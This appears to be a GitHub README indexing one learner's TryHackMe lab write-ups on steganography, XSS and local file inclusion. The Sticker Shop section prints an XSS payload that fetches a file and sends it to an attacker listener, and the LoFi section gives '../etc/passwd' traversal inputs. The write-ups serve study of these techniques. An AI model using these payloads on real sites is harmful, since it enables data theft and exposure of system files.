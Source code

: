 # 🧠 CyberSec Writeups & Solutions by Achref Rahali

Welcome to my personal repository of cybersecurity challenges, cracking problems, and hacking labs that I’ve tackled and documented. This repo serves as a logbook of my progress through CTFs, TryHackMe rooms, and real-world scenarios to sharpen my offensive security skills.

---

## 🧠 Solved Challenges
### 📌 [CyberLens – TryHackMe](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
A walkthrough of the CyberLens room on TryHackMe where I tackled:
- OSINT
- Steganography
- Network forensics
- Basic RE

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/cyberlens-tryhackme-writeup-d184903e497e)

📌 **Topics covered:**
- OSINT & Recon
- Steganography
- Network Forensics
- Reverse Engineering

📝 **Tools used:**
- Wireshark
- strings
- stegseek
- exiftool
- and more...

  🛡️ **Lessons Learned:**
- [x] Always enumerate all provided media and files — hidden messages are common in CTFs.
- [x] Metadata and file formats can reveal more than expected (e.g., EXIF, hidden ZIPs).
- [x] Don't skip packet analysis — the answer is often buried in plain sight within the pcap.
- [x] Automation tools like `stegseek` or `binwalk` can save massive time when exploring binary data.

---

### 📌 [The Sticker Shop – TryHackMe](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)
An XSS-based exploitation of a vulnerable feedback form to exfiltrate a protected flag from the webserver.

> 📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/the-sticker-shop-046f5b9bec95)

📌 **Topics covered:**
- XSS (Cross-Site Scripting)
- Access Control Bypass
- Same-Origin Policy (SOP) Exploitation
- JavaScript Payload Crafting

🛠️ **Exploitation Steps:**
1. Recon with `nmap` and `gobuster` to discover exposed HTTP service and directories.
2. Identified XSS via the feedback form using a `<script>alert(1)</script>` test.
3. Injected payload to fetch `/flag.txt` and leak it to a remote listener.
4. Captured the flag using a Python HTTP server.
5. Decoded exfiltrated content: `THM{83789a69074f636f64a38879cfcabe8b62305ee6}`

🧪 **Payload Used:**
```html
<script>
  fetch('/flag.txt')
    .then(r => r.text())
    .then(data => {
      window.location = 'http://MY_IP:8081/receive?flag=' + encodeURIComponent(data);
    });
</script>
```

🛡️ **Lessons Learned:**

- [x] Input sanitization is critical.
- [x] Same-Origin Policy can be abused if proper authentication isn’t enforced.
- [x] Feedback forms are common entry points for reflected XSS.

---

### 📌 LoFi Room – TryHackMe

An LFI-based exploitation of a vulnerable `?page=` parameter to access sensitive files on the system and retrieve the flag.

📝 [Read full write-up on Medium](https://medium.com/@rahaliashraf732/tryhackme-lofi-room-writeup-exploiting-lfi-vulnerability-ca349aec9d17)  
[![Read on Medium](https://img.shields.io/badge/Read_on-Medium-black?logo=medium)](https://medium.com/@rahaliashraf732/tryhackme-lofi-room-writeup-exploiting-lfi-vulnerability-ca349aec9d17)


#### 📌 Topics covered:
- Local File Inclusion (LFI)
- Directory Traversal
- Web Enumeration
- Flag Extraction


#### 🛠️ Exploitation Steps:
- Ran `nmap` to identify open ports (SSH & HTTP).
- Used `gobuster` to enumerate hidden directories (no useful results).
- Identified dynamic file inclusion through `?page=chill.php`.
- Tested LFI with `?page=../../../../etc/passwd` → success.
- Retrieved the flag via `?page=../../../../flag.txt`.


#### 🛡️ Lessons Learned:
- Always check URL parameters for possible LFI.
- Directory traversal is a simple yet powerful technique.
- LFI can expose critical system files and sensitive information if unvalidated.

---

## 🔜 Coming Soon

I’ll be adding more CTF rooms, reverse engineering challenges, and crackmes, such as:
- VulnHub boxes
- Hack The Box writeups
- Custom malware analysis tasks
- Password cracking scenarios

---

## 📚 Why This Repo?

This repo helps me:
- Track my learning in infosec
- Improve my documentation skills
- Share my knowledge with others starting out in ethical hacking

---

## ⚠️ Legal Notice

> This repository is strictly for educational purposes. All challenges and techniques are practiced on **legally authorized platforms** like TryHackMe, HTB, or offline VMs. Do not attempt to use these techniques on unauthorized systems.

---



